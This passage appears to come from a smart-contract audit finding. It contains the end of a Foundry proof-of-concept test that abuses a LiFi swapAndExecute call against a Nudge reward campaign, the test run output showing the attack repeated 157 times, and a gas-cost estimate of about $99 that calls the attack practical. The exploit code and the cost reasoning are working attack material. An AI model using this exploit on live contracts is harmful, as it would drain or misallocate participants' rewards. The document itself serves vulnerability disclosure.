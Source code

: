 ```
      vm.startPrank(attacker);
      IERC20(DAI).approve(LIFI_EXECUTOR.erc20Proxy(), toAmount);

      LIFI_EXECUTOR.swapAndExecute(transactionId, swapData, address(DAI), payable(attacker), toAmount);
      vm.stopPrank();
      uint256 gasEnd = gasleft();
      if (count == 0) {
        console.log("Gas used per attack = ", gasStart - gasEnd);
      }

      vm.prank(operator);
      campaign.invalidateParticipations(pIDsWithOne);
      count++;
    }

    uint256 newClaimableReward = campaign.claimableRewardAmount();
    console.log("Final Claimable Reward:", newClaimableReward);
    console.log("Number of times attack ran", count);

  }
}
```

Then run with `forge test --mt test_attackReallocationTest -vvv`. Here is the result:
```

 forge test --mt test_attackReallocationTest -vvv
[⠰] Compiling...
[⠔] Compiling 1 files with Solc 0.8.28
[⠒] Solc 0.8.28 finished in 4.06s
Compiler run successful!

Ran 1 test for src/test/NudgeCampaignAttackTest.t.sol:NudgeCampaignAttackTest
[PASS] test_attackReallocationTest() (gas: 40900516)
Logs:
  Gas used per attack =  432808
  Final Claimable Reward: 5558848000000000000000
  Number of times attack ran 157

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.94s (3.72s CPU time)

Ran 1 test suite in 10.96s (10.94s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

* Gas used per attack: 432808
* Attack ran 157 times
* Total gas: `432808 * 157 = 67950856`
  With the current Ethereum gas price of 0.701 gwei per gas, it’ll cost 0.`701 * 67950856` gwei = 47633550.056 gwei
* This is 0.0476 Ether (Current Ether price is `$2087`). `2087 * 0.0476 = $99.34`
* It cost about `$99.34` in gas to launch the attack. This will be cheaper on L2, making this attack very possible.

